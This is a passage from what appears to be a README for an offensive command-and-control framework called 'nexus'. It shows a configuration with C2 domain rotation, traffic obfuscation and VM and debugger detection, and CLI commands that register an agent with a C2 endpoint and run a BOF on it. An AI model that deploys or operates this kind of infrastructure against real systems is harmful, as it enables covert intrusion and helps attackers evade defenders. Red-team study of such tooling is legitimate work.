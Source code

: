 ## 🔧 Configuration

### Example Configuration (`nexus.toml`)

```toml
[cloudflare]
api_token = "your_cloudflare_api_token"
zone_id = "your_zone_id"
domain = "example.com"
proxy_enabled = true
ttl = 300

[letsencrypt]
contact_email = "admin@example.com"
challenge_type = "Dns01"
cert_renewal_days = 30
wildcard_enabled = true

[grpc_server]
bind_address = "0.0.0.0"
port = 443
mutual_tls = true
max_connections = 1000

[domains]
primary_domains = ["c2.example.com"]
rotation_interval = 24
max_subdomains = 10

[security]
additional_encryption = true
traffic_obfuscation = true
anti_analysis = { vm_detection = true, debugger_detection = true }
```

## 🎯 Advanced Usage

### **gRPC Communication**

```bash
# Register agent with gRPC server
./nexus-agent --grpc-endpoint https://c2.example.com:443

# Execute BOF with arguments
nexus-cli bof-execute agent-123 "whoami.obj" "go"

# Domain rotation
nexus-cli domain rotate --immediate
```

### **BOF Development & Execution**
